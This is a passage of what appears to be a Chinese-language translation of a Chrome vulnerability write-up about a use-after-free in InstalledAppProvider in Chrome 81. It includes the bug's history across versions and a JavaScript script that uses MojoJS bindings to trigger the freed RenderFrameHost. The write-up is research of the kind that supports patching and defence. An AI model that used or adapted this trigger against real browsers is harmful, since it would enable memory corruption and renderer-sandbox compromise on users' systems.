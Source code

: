 因此，如果在释放`RenderFrameHost`之后调用这个方法，就会发生释放后使用的情况。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F"></a>漏洞生命周期

这个漏洞是在Chrome 81.0.4041.0的提交中引入的。在几周后，这个提交中的漏洞恰好移动到了实验版本命令行标志的后面。但是，这个更改位于Chrome 82.0.4065.0版本中，因此该漏洞在Chrome稳定版本81的所有桌面平台上都是可以利用的。



## 漏洞利用

### <a class="reference-link" name="%E8%A7%A6%E5%8F%91%E6%BC%8F%E6%B4%9E"></a>触发漏洞

尽管有可能通过纯JavaScript触发该漏洞，但几乎可以肯定，攻击者不会选择这种利用方式。取而代之的是，我们可以通过启用MojoJS blink绑定（在Chrome命令行中使用`--enable-blink-features=MojoJS`）来模拟一个被攻击的渲染器进程。这些绑定将Mojo平台直接暴露给JavaScript，从而使我们可以完全绕过Blink绑定。请注意，可以通过被攻击的渲染器进程启用这些绑定，具体方式是翻转内存中的某一位，然后创建一个新的JavaScript上下文，因此我们的漏洞利用代码可以轻松地用于漏洞利用链之中。<br>
我们初次尝试触发该漏洞，使用了类似于漏洞报告中的方法。思路是，在顶部框架派生出几个子帧，每个子帧将获取其框架中一系列`InstalledAppProvider`实例的句柄。子帧会反复调用`filterInstalledApps`以阻塞Mojo消息管道。在几秒钟，最上方的框架将会删除子帧，从而释放备份`RenderFrameHosts`。这样一来，也会在`InstalledAppProvider MessagePipes`上导致连接错误，但我们希望，直到`filterInstalledApps`调用取消引用释放的指针之后，再处理连接错误。<br>
我们可以使用以下脚本创建页面：

```
function allocate_rfh() {
  var iframe = document.createElement("iframe");
  iframe.src = window.location + "#child"; // designate the child by hash
  document.body.appendChild(iframe);
  return iframe;
}
function deallocate_rfh(iframe) {
  document.body.removeChild(iframe);
}
if (window.location.hash == "#child") {
  var ptrs = new Array(4096).fill(null).map(() =&gt; {
    var pipe = Mojo.createMessagePipe();
    Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
                       pipe.handle1);
    return new blink.mojom.InstalledAppProviderPtr(pipe.handle0);
  });
  setTimeout(() =&gt; ptrs.map((p) =&gt; {
    p.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
    p.filterInstalledApps([], new url.mojom.Url({url: window.location.href}));
  }), 2000);
} else {
  var frames = new Array(4).fill(null).map(() =&gt; allocate_rfh());
  setTimeout(() =&gt; frames.map((f) =&gt; deallocate_rfh(f)), 15000);
}
setTimeout(() =&gt; window.location.reload(), 16000);
```

经过几次刷新后，我们终于找到了漏洞：

